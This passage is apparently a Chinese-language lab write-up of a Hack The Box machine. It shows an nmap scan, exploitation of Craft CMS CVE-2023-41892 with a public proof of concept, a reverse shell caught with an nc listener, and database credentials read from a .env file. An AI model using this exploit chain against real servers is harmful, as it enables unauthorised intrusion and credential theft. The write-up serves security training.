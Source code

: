 开放端口：
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

## 攻击路径规划·漏洞分析

常规简单靶机，22端口SSH的版本较新，优先度放低。先看80端口的Web。


## 80端口

访问后查看网页源码发现版本，谷歌一波发现CVE。
> Powered by <a href="https://github.com/craftcms/cms/tree/4.4.14"/>Craft CMS

## Initial Access

### PoC (CVE-2023-41892)

https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226

```bash
└─$ python CVE-2023-41892.py "http://surveillance.htb/"
[-] Get temporary folder and document root ...
<i>no value</i>,   /var/www/html/craft/web
[-] Write payload to temporary file ...
[-] Trigger imagick to write shell ...
[-] Done, enjoy the shell
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

getshell，不过有点问题，发现似乎有些限制，例如无法移动目录。于是再运行了个反弹shell命令，kali接收：
```bash
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.245] 43280
www-data@surveillance:~/html/craft/web/cpresources$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


## MySQL信息泄漏

稍微在这个web项目文件夹附近探索一下，发现mysql凭据。看了眼本地监听端口有3306，遂连接mysql看看：
```bash
www-data@surveillance:~/html/craft$ cat .env
 (...)
# Database connection settings
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craftdb
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftCMSPassword2023!
CRAFT_DB_SCHEMA=
CRAFT_DB_TABLE_PREFIX=

# General settings (see config/general.php)
DEV_MODE=false
ALLOW_ADMIN_CHANGES=false
DISALLOW_ROBOTS=false

```